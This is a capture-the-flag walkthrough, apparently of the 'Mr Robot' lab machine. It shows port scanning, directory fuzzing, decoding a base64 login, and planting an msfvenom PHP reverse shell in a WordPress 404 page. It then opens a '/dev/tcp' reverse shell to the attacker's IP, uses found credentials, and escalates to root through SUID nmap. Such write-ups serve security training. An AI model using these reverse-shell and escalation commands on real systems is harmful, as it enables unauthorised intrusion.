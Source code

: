 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/cb1c3fb3-2973-4fcd-b957-9ffec2337fb1"></picture>
<h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/5223b9fb-f5d2-4f5f-b961-af45d26dec7e"></picture></h1>

```bash
ping -c 1 10.10.223.160
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.223.160 -oG allports
nmap -sCV -p80,443 10.10.223.160 -oN targeted
```
![image](https://github.com/user-attachments/assets/6509eeef-95c5-43e2-8b41-9294a4206893)

## **PORT 80**
![image](https://github.com/user-attachments/assets/4d0ea598-172c-4067-b1d5-8965d718abcb)

## **PORT 443**
![image](https://github.com/user-attachments/assets/69575dea-cc05-4273-bb14-422b2f5b3a88)

## **Identifying the technologies, servers, and applications that make up the web**
```bash
whatweb http://10.10.223.160
```
![image](https://github.com/user-attachments/assets/f44e3359-cc74-4743-b2c9-c5f3c9e20e4b)
We did not find anything that could help us

## **Fuzzing Web**
```bash
gobuster dir -u http://10.10.223.160/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/94c3631c-3f7b-4928-8f52-f9dfbcdd46a9)

![image](https://github.com/user-attachments/assets/3ef2f037-22b6-4065-8eea-bfa7f011dcd9)

![image](https://github.com/user-attachments/assets/95c7db88-bd00-45b9-8c20-009bb548f3b4)

![image](https://github.com/user-attachments/assets/572806d5-12db-440e-88a4-16a6e1785266)

![image](https://github.com/user-attachments/assets/090c0dae-5803-4d51-a495-3a4d453d7dd8)
![image](https://github.com/user-attachments/assets/959d45f4-1b81-484e-975c-ae19f5b99582)<br>
![image](https://github.com/user-attachments/assets/c17c5f8b-fb24-4b15-9f33-20ce7e32b5fb)

## **We found several hidden pages, but in one we found a hash64**
```bash
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![image](https://github.com/user-attachments/assets/e5b4b107-1390-43e1-b5d5-653e80accca0)<br>
elliot:ER28-0652<br>
![image](https://github.com/user-attachments/assets/6af5ebc6-25f7-439c-9cd1-0b48cd970cfe)

## **We are going to modify a part of the web in this case the error 404 that when entering a site that does not exist, a code that we will create will be executed and it will return a shell that we will intercept later.**
![image](https://github.com/user-attachments/assets/4bf0c610-9e79-4be4-8b80-c4b3e426c666)

## **Creating the malicious code**
```bash
msfvenom -p php/reverse_php LHOST=10.21.118.81 LPORT=443 -f raw > pwned.php
```
![image](https://github.com/user-attachments/assets/ac8a757b-69b4-47b9-828e-487ea520472a)

## **the code created inside the pwned.php file will be copied into the error 404 page**
![image](https://github.com/user-attachments/assets/045a6510-9a06-4f5a-95e3-0fdb756f7b8b)

## **we go into listening mode**
```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/d9fac086-7c71-4b2f-9a82-da79777f6e87)<br>

## **we open a website that does not exist**
![image](https://github.com/user-attachments/assets/0160a91f-8439-4866-aff0-03daae79b264)

## **intercept and send the connection to another port in order to establish the connection.**
![image](https://github.com/user-attachments/assets/b4c10518-86b2-4d94-8bce-f5186cfe7066)

```bash
bash -c "sh -i >& /dev/tcp/10.21.118.81/444 0>&1"
```
![image](https://github.com/user-attachments/assets/8f90a8bd-4599-4582-99a8-6968ea941ccf)

## **we intercept the new connection on our port 444**
```bash
nc -nlvp 444
```
![image](https://github.com/user-attachments/assets/0a5e6e27-269b-44ea-a313-8ea4fa2bb47b)

## **once inside we do an investigation to find sensitive content and do a TTY treatment.**
```bash
python -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://github.com/user-attachments/assets/1f703ba1-e294-4744-b456-e12e5701bbbc)

![image](https://github.com/user-attachments/assets/e55247dd-9190-4e58-afa8-6b7ce096c5cd)
robot:c3fcd3d76192e4007dfb496cca67e13b


![image](https://github.com/user-attachments/assets/b28ef771-3125-4e09-ae60-1889ff2224c3)
abcdefghijklmnopqrstuvwxyz

## **with the information found, we change the user.**
```bash
su robot
```
![image](https://github.com/user-attachments/assets/a500ac2d-0610-47b0-94e3-db17136edf65)

## **elevating privileges**
```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/096f03b1-c457-433a-be53-5191ba3a2ec7)

![image](https://github.com/user-attachments/assets/4f1dc63c-4f4c-47f3-898e-399dd036bb9a)

```bash
nmap --interactive
```
![image](https://github.com/user-attachments/assets/4ac2840d-ec78-4792-b939-1d5953ec795d)

```bash
!sh
```
![image](https://github.com/user-attachments/assets/50fcc1fd-b59d-496a-8ab0-a2dab7a681b1)








